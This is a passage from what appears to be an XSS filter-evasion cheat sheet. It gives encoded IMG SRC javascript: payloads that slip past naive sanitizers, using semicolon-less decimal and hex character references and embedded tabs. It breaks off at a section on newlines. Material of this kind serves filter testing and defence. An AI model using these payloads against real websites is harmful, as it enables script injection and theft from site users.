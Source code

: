 All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

```html
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

## Decimal HTML Character References Without Trailing Semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):

```html
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

## Hexadecimal HTML Character References Without Trailing Semicolons

This is also a viable XSS attack against the above string $tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

```html
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

## Embedded Tab

Used to break up the cross site scripting attack:

```html
<IMG SRC="jav ascript:alert('XSS');">
```

## Embedded Encoded Tab

Use this one to break up XSS :

```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```

## Embedded Newline to Break-up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:
